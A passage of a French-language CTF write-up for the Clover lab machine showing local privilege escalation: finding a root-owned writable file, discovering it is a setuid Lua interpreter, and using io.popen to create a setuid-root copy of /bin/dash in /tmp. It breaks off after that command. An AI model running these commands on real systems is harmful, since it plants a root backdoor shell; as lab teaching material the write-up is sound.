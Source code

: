```bash
sword@Clover:~$ cat local2.txt 





     /\
    // \
    || |
    || |
    || |      Sword PWN!
    || |
    || |
    || |
 __ || | __
/___||_|___\
     ww
     MM
    _MM_
   (&<>&)
    ~~~~




e63a186943f8c1258cd1afde7722fbb4
```

On peut relancer `LinPEAS` ou fouiller par nous même les fichiers appartenant à root et qui sont écrivables :

```bash
sword@Clover:~$ find / -type f -writable -user root 2> /dev/null | grep -v /proc | grep -v /sys
/usr/games/clover/deamon.sh
```

Si `LinPEAS` n'a pas remarqué le fichier précédemment c'est parce que le dossier où il se trouve n'est accessible que par l'utilisateur `sword`.

Il s'avère que le fichier `daemon.sh` est un binaire ELF et dispose du bit setuid root. Ce serait donc domage de l'écraser (il perdrait le bit setuid).

A l'exécution on découvre aussi qu'il s'agit de l'interpréteur Lua. J'ai repris la technique d'exécution que j'avais croisé sur [le CTF Nebula ](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Nebula%20(levels%2012%20%C3%A0%2019).md).

```bash
sword@Clover:~$ /usr/games/clover/deamon.sh
Lua 5.2.3  Copyright (C) 1994-2013 Lua.org, PUC-Rio
> prog = io.popen("id")
> data = prog:read("*all")
> prog:close()
> print(data)
uid=1001(sword) gid=1001(sword) euid=0(root) groups=1001(sword)

> prog = io.popen("cp /bin/dash /tmp/shell;chown root:root /tmp/shell;chmod 4755 /tmp/shell")
```
